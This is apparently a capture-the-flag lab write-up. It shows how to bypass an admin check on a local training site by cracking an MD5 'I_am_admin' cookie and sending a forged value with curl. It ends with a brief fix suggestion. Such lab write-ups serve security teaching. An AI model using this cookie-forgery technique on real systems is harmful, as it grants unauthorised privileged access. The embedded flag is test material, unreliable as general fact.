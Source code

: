 In the http://192.168.1.32/?page=recover page, there is a HTML form described as follow:
<form action="#" method="POST">
  <input type="hidden" name="mail" value="webmaster@borntosec.com" maxlength="15">
  <input type="submit" name="Submit" value= "Submit">
</form>

Step 1: Understanding the Form Submission
The /recover page sends a POST request with the following form data:
mail: webmaster@borntosec.com
Submit: Submit

And the request has a cookie:
I_am_admin=68934a3e9455fa72420237eb05902327

Step 2: Analyze the Cookie
The cookie I_am_admin=68934a3e9455fa72420237eb05902327 appears to be a hash. Let's decode the hash to understand its content.

Step 3: Decode the Hash
The given hash 68934a3e9455fa72420237eb05902327 is an MD5 hash. Using an MD5 decryption tool or an online database like hashes.com, we can decode this hash.

Let's decode it using https://md5decrypt.net/
68934a3e9455fa72420237eb05902327: false
It seems that the hash corresponds to the string false. This indicates that the current cookie value implies the user is not an admin.

Step 4: Modify the Cookie
Since false is the value indicating non-admin status, let's try changing it to true.
Generate the MD5 hash for true: b326b5062b2f0e69046810717534cb09

Step 5: Send the POST Request
Use a tool like curl or Postman to send the POST request with the modified cookie.
curl -X POST http://192.168.1.32/?page=recover \
  -H "Cookie: I_am_admin=b326b5062b2f0e69046810717534cb09"

Step 7: Analyze the Response
After sending the POST request with the modified cookie, the response contain an altert that displays the flag:
<script>alert('Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3');</script>

A way to fix this vulnerability would be to use JWT instead of a handmade "I_am_admin" cookie.